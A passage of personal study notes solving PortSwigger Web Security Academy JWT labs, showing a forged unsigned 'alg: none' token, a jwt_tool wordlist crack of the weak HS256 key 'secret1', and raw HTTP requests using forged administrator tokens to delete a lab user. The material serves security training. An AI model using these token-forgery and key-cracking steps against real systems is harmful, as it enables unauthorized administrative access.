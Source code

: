 
> [!note] Tip
>  Even if the token is unsigned, the payload part must still be terminated with a trailing dot. 
> 
- fuck carlos
```HTTP
GET /admin/delete?username=carlos HTTP/2
Host: 0a86008e046f6c5680303f3200f30066.web-security-academy.net
Cookie: session=eyJraWQiOiI2ODVjOGFiMi01MWIzLTQwNzYtOTllMy00OTVkMGI4YmQ1ZTkiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3NDQxOCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a86008e046f6c5680303f3200f30066.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

# [Lab](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key): JWT authentication bypass via weak signing key
- use wordlist recommended portswigger
- use jwt tool [repo](https://github.com/ticarpi/jwt_tool)
```bash
 p3 jwt_tool.py eyJraWQiOiJjZjQxMDc1Ni0zYzVlLTRmZTItOGE5OC02M2FlNmRmOWY3ODUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3NjE0Niwic3ViIjoid2llbmVyIn0.2NgPmegkL8pPIWrhQ5vdBTxTO3QYSx188P94zm8eAKA -C -d ../../word-lists/jwt.secrets.list

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi

Original JWT:

[+] secret1 is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "secret1"
```
- OK, `secret1` signing key
![[jwt-weak.png]]
- [link](https://jwt.io)
- delete carlos
- with above created jwt 
```HTTP
GET /admin/delete?username=carlos HTTP/2
Host: 0a9100f003a338768089cb2900f80079.web-security-academy.net
Cookie: session=eyJraWQiOiJjZjQxMDc1Ni0zYzVlLTRmZTItOGE5OC02M2FlNmRmOWY3ODUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3NjE0Niwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.1x7ZKR3-UEZTi-7oXpANDjtvcXYZkRZQbI_3kd7g2bo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
```